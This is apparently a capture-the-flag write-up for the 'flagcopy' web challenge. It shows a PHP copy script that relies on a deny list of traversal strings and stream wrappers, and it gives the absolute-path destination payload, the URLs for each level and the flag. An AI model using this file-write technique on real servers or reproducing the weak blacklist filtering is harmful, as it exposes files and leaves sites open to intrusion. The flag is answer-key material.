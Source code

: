# flagcopy
> Jack was a self-proclaimed pirate who believed that information wanted to be free

## About the Challenge
We were given a website that have a functionality the file called `flag.php` to new destination

![preview](images/preview.png)

If we press the `Source Code` button, we will be given a source code of `copy.php`

```php
<?php

// Make sure we have the destination filename
if(!isset($_GET['dest'])) {
    header('Content-Type: text/plain');
    header('Refresh: 2;url=..'); // Cool pirates don't use Location, docs: https://web.archive.org/web/20040811213204/http://devedge.netscape.com/library/manuals/1998/htmlguide/tags3.html
    echo "error! use: ?dest=<file>";
    exit(0);
}
$dst=$_GET['dest'];

// Prevent hackspettar
$disallow = Array(

    // Bad files
    'index.php', 'copy.php', 'flag.php',

    // Prevent traversals
    '..', './', '.\\',

    // Remove known bad characters
    '?','#','&', "\0",

    // Disallow bad protocols
    'http://','https://','ftp://','zip://','rar://','expect://','phar://','zlib://','glob://','ssh2://','ogg://',

    // TODO: Improve security
);
foreach($disallow as $word) {
    if (stripos($dst,$word) !== false) {
        echo "hacker attack detected!!1!";
        exit(0);
    }
}

// Copy the flag to it's new location
var_dump(copy('flag.php',$dst));
?>
```

So we can control the destination file

## How to Solve?
There are several levels that we need to pass in order to obtain the flag, and for these challenges, I am using the same payload for each level.

```
copy.php?dest=/var/www/html/dappppppppppppppp.txt
```

If I set `/var/www/html/dappppppppppppppp.txt`, the file called `flag.php` will be copied into `/var/www/html/dappppppppppppppp.txt`. And we need to access http://flagcopy-1.ctf.hackaplaneten.se/dappppppppppppppp.txt to check the content of `flag.php`

Repeat that steps until you obtain the flag. Here is the link of each level

* Level 1
```
http://flagcopy-1.ctf.hackaplaneten.se/uploads/copy.php?dest=/var/www/html/dappppppppppppppp.txt
```
* Level 2
```
http://flagcopy-1.ctf.hackaplaneten.se/flag-copy-final/uploads/copy.php?dest=/var/www/html/dappppppppppppppp.txt
```
* Level 3
```
http://flagcopy-1.ctf.hackaplaneten.se/flag-copy-final-pinky-promise-seriously/uploads/copy.php?dest=/var/www/html/dappppppppppppppp.txt
```

![flag](images/flag.png)

```
SECFEST{@nt1p1ratByr0n_w0ulD_b3_pr0uD}
```
